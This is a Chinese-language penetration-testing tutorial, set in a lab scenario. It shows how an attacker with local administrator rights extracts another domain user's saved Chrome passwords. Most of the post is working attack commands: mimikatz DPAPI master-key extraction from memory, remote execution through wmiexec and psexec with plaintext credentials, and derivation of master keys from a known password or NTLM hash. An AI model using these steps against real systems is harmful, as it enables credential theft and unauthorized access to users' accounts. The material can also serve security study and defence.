






模拟场景
在获取某PC本地administrator的权限情况下，导出使用该PC机域普通账号的密码。
受害机ip：192.168.3.4
受害机账户：
- 本地管理员：administrator/toor
- 域普通账户：beta\fengjie/qqq123!@#
加密机制简介
chrome储存的明文密码时使用windows提供的DPAPI进行对称加密来保证安全性。加解密的密钥称为master key。master key被用户登录密码、SID和16字节随机数加密后保存在Master Key file（%APPDATA%\Microsoft\Protect\%SID%）中。
最简单的情况：A用户拖A自己的密码
1 | dpapi::chrome /in:'C:\Users\fengjie\AppData\Local\Google\Chrome\User |
在A用户登陆状态B解密A的chrome密码
在用户登陆状态下可以直接用procdump或者mimikatz直接从内存中获取master key。
1 | privilege::debug |

获取到masterkey
1 | 0bf0be64d4dc768a543b3a12d7c5210d184c07a3861cad8f2bd8b7bbacc60fd0e06e955b6dad057d070d1ce3b2bb331fd8dbce6efad08808f1849e4f4ef26d80 |
接下来用mimikatz一把梭就可以了
1 | python wmiexec.py administrator:toor@192.168.3.4 'cd c:\users\public && Minimimini64.exe "dpapi::chrome /in:\"C:\Users\fengjie\AppData\Local\Google\Chrome\User Data\Default\Login Data\" /masterkey:1b81b1c9cb66a3f93b58f85948e8ce53779c6e5d" exit ' |
最开始用wmiexec并未解密成功

后来发现是wmiexec的锅换成psexec就好了（用smbexec也可以，怀疑是因为用wmiexec时令牌完整性受限的原因，知道的师傅请教我一手）

在A用户离线状态B解密A的chrome密码
现在用mimikatz重新抓已经抓不到fengjie的master key了

用户明文密码已知
这种情况下有两种方法可以选择。
1.如果我们知道fengjie的明文密码，可以用runas降权(或者进行一些spwan的操作降权)，降权之后又回到了最简单的情况。（因为runas需要交互式shell，所以这种方法比较鸡肋）
1 | runas /user:fengjie@beta.com "cmd.exe" |
2.在没有交互式的情况下可以直接用mimikatz直接算出master key。
1 | dpapi::masterkey /in:"c:\Users\fengjie\AppData\Roaming\Microsoft\Protect\S-1-5-21-2274946182-2013957047-1890316882-1632\59a94dbc-6dbb-4d51-bec0-edebc6f2e9f8" /password:qqq123!@# |

拿到master key后情况又相当于又转换回了用户在线的情景。
用户明文密码未知，知道NTLM hash
1 | dpapi::masterkey /in:"c:\Users\fengjie\AppData\Roaming\Microsoft\Protect\S-1-5-21-2274946182-2013957047-1890316882-1632\59a94dbc-6dbb-4d51-bec0-edebc6f2e9f8" /hash:632f6adad4510099d676724bfb87c6ee |

总结
简单的说就是三种情况
A用户获取自己chrome密码不需要知道master key
A获取B用户，如果B用户在线，那么可以直接从内存中抓取出B的maste key
A获取B用户，B不在线，就需要用b用户的明文密码或者NTLM hash计算出master key,在回到上面一步。
参考
渗透技巧——导出Chrome浏览器中保存的密码
渗透技巧——离线导出Chrome浏览器中保存的密码
渗透技巧——利用Masterkey离线导出Chrome浏览器中保存的密码
Operational Guidance for Offensive User DPAPI Abuse
[翻译]滥用User DPAPI进行攻击的操作指南